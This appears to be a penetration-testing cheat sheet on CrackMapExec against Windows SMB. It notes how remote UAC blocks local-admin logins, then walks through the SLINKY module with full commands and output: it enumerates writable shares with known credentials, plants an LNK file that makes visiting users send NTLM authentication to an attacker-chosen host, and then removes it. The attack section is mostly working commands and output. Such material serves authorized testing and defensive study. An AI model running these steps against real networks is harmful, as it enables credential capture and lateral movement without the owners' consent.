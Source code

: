 ### Remote User Account Control (UAC)

If you know the user has local administrator rights but you get the error `STATUS_LOGON_TYPE_NOT_GRANTED` or the authentication works but not `Pwn3d!`, Remote User Account Control is likely to be enabled.

Have a look at [Regedit - Disabled Remote UAC]({{< ref "regedit#disable-remote-user-account-control-uac" >}})

```plain
$ cme smb 10.10.10.10 -u johndo -p 'Welkom1234!' --local-auth
SMB         10.10.10.10  445    WIN10            [*] Windows 10.0 Build 17763 x64 (name:WIN10) (domain:WIN10) (signing:True) (SMBv1:False)
SMB         10.10.10.10  445    WIN10            [-] WIN10\Administrator:Welkom1234! STATUS_LOGON_TYPE_NOT_GRANTED
```

### Trigger NTLM / SMB authentication through shortcut (SLINKY)

[Twitter.com - Slinky](https://twitter.com/mpgn_x64/status/1453018750253424643)

Find a writable share.

```plain
$ cme smb 10.10.10.15 -u johndo -p 'Welkom1234!' --shares
SMB         10.10.10.15   445    SRV_FS         [*] Windows 10.0 Build 19041 x64 (name:SRV_FS) (domain:OFFSEC.NL) (signing:False) (SMBv1:False)
SMB         10.10.10.15   445    SRV_FS         [+] OFFSEC.NL\johndo:Welkom1234!
SMB         10.10.10.15   445    SRV_FS         [+] Enumerated shares
SMB         10.10.10.15   445    SRV_FS         Share           Permissions     Remark
SMB         10.10.10.15   445    SRV_FS         -----           -----------     ------
SMB         10.10.10.15   445    SRV_FS         ADMIN$          -               Remote Admin
SMB         10.10.10.15   445    SRV_FS         C$              -               Default share
SMB         10.10.10.15   445    SRV_FS         example         READ,WRITE
SMB         10.10.10.15   445    SRV_FS         IPC$            -               Remote IPC
```

Place file on writable share on target system.

```plain
$ cme smb 10.10.10.15 -u johndo -p 'Welkom1234!' -M slinky -o NAME=examplefile SERVER=10.10.10.20
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] y
SMB         10.10.10.15   445    SRV_FS         [*] Windows 10.0 Build 19041 x64 (name:SRV_FS) (domain:OFFSEC.NL) (signing:False) (SMBv1:False)
SMB         10.10.10.15   445    SRV_FS         [+] OFFSEC.NL\johndo:Welkom1234!
SLINKY      10.10.10.15   445    SRV_FS         [+] Found writable share: example
SLINKY      10.10.10.15   445    SRV_FS         [+] Created LNK file on the example share
```

Clean-up the placed file.

```plain
$ cme smb 10.10.10.15 -u johndo -p 'Welkom1234!' -M slinky -o NAME=EXAMPLE SERVER=10.10.10.20 CLEANUP=True
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] y
SMB         10.10.10.15   445    SRV_FS         [*] Windows 10.0 Build 19041 x64 (name:SRV_FS) (domain:OFFSEC.NL) (signing:False) (SMBv1:False)
SMB         10.10.10.15   445    SRV_FS         [+] OFFSEC.NL\johndo:Welkom1234!
SLINKY      10.10.10.15   445    SRV_FS         [+] Found writable share: example
SLINKY      10.10.10.15   445    SRV_FS         [+] Deleted LNK file on the example share
```
